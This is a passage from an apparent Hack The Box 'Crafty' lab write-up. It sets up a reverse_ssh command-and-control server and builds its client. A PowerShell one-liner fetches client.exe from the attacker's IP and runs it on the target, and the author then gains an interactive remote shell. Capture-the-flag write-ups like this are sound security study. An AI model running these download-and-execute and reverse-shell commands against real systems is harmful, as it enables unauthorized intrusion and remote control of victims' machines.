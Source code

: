 
### Reverse SSH - Interactive shell

> https://github.com/NHAS/reverse_ssh

Start server

```bash
┌──(bravosec㉿fsociety)-[~/htb/Crafty]
└─$ cd /opt/sectools/c2/reverse_ssh/bin && ./server 0.0.0.0:443
2024/01/18 23:19:14 Loading files from /opt/sectools/c2/reverse_ssh/bin
2024/01/18 23:19:14 Version:  v2.4.1
2024/01/18 23:19:14 Listening on 0.0.0.0:443
2024/01/18 23:19:14 Loading private key from: /opt/sectools/c2/reverse_ssh/bin/id_ed25519
2024/01/18 23:19:14 Server key fingerprint:  fe76708014a97adea5673c27edf4800c7ec45dc51f90612dfb08593b0ebcd2e2
2024/01/18 23:19:14 Loading authorized keys from: /opt/sectools/c2/reverse_ssh/bin/authorized_keys
2024/01/18 23:19:14 Was unable to read webhooks configuration file
```

Build the client

```bash
┌──(bravosec㉿fsociety)-[/opt/sectools/c2/reverse_ssh]
└─$ RSSH_HOMESERVER=10.10.14.83:443 make
```

Download and start the client

```bash
PS C:\users\svc_minecraft\server> (new-object System.Net.WebClient).DownloadFile('http://10.10.14.83/win/client.exe', '\programdata\client.exe'); \programdata\client.exe
```

Connect to the client, now I have **ssh**'s functionalities

```bash
┌──(bravosec㉿fsociety)-[~/htb/Crafty]
└─$ ssh 127.0.0.1 -p 443 ls -t
                            Targets
+------------------------------------------+--------------------------+
| IDs                                      | Version                  |
+------------------------------------------+--------------------------+
| 7d814d0da41a2113e06d752e903e6097fa73749c | SSH-v2.4.1-windows_amd64 |
| 4560e76350de6d8c31090d0eabcd9a9da8c8c58b |                          |
| crafty.svc_minecraft.crafty              |                          |
| 10.129.166.189:49728                     |                          |
+------------------------------------------+--------------------------+

┌──(bravosec㉿fsociety)-[~/htb/Crafty]
└─$ ssh -J 127.0.0.1:443 crafty.svc_minecraft.crafty
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\users\svc_minecraft\server>
```
